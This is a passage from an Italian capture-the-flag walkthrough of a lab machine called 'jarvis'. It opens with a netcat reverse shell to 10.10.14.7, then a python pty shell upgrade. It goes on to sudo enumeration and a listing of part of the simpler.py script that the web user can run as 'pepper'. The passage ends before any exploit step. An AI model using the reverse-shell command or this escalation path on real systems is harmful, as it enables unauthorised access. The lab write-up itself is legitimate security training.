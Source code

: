```text
nc -e /bin/sh 10.10.14.7 1234
```

Successivamente, utilizzo il seguente comando per ottenre una shell migliore:

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

Controllo i privilegi sudo dell'utente _www.data_:

```text
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Ispeziono quindi il file _simpler.py_ (sul quale ho soltato i permessi in lettura):

```text
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
```